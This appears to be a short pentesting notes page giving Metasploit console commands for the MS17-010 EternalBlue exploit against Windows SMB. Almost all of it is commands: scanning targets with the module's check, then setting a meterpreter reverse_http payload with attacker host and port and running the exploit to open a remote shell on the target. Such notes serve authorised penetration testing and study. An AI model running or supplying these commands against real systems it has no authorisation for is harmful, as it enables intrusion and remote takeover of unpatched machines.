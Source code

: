 # Metasploit

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <IP>/<CIDR>
```

```
msf exploit(windows/smb/ms17_010_eternablue) > check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternablue) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/smb/ms17_010_eternablue) > options

msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <target_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lhost <attacker_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lport <attacker_PORT>

msf exploit(windows/smb/ms17_010_eternablue) > run
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/0x03 - Network Ports/Remote Services/SMB|Vulnerability Assessment: SMB]]

### Sploitify

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)